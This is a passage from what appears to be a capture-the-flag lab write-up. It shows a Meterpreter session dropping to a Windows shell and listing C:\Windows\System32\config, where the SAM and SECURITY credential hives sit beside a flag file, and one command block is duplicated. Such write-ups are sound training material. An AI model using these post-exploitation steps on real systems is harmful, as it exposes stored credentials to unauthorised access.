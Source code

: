 ```bash
# Drop back to shell
shell
```

#### Step 4: Access Config Directory with Elevated Privileges

```bash
# Navigate to config directory with elevated privileges
cd Windows\System32\config

# List contents
dir
```

```bash
# Navigate to config directory with elevated privileges
cd Windows\System32\config

# List contents
dir
```

**Config Directory Contents:**
```
meterpreter > shell
Process 2544 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd config
cd config

C:\Windows\System32\config>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5CD6-020B

 Directory of C:\Windows\System32\config

01/19/2025  01:10 PM    <DIR>          .
01/19/2025  01:10 PM    <DIR>          ..
05/09/2014  09:25 AM           262,144 BCD-Template
01/19/2025  01:10 PM       101,187,584 COMPONENTS
08/22/2013  01:25 PM                 0 COMPONENTS.LOG
01/09/2025  07:13 AM         2,621,440 DEFAULT
08/22/2013  01:25 PM                 0 DEFAULT.LOG
01/19/2025  01:25 PM         4,521,984 DRIVERS
01/19/2025  01:09 PM                34 flag2.txt
08/22/2013  01:25 PM               164 FP
08/22/2013  01:25 PM    <DIR>          Journal
01/09/2025  06:58 AM    <DIR>          RegBack
01/19/2025  01:25 PM           262,144 SAM
01/09/2025  07:13 AM           262,144 SECURITY
08/22/2013  01:25 PM                 0 SECURITY.LOG
01/09/2025  07:13 AM        89,653,248 SOFTWARE
08/22/2013  01:25 PM                 0 SOFTWARE.LOG
01/09/2025  07:13 AM        12,582,912 SYSTEM
08/22/2013  01:25 PM                 0 SYSTEM.LOG
06/20/2014  07:56 PM    <DIR>          systemprofile
03/18/2014  10:32 PM    <DIR>          TxR
              15 File(s)    211,353,798 bytes
               6 Dir(s)   3,484,336,128 bytes free
```
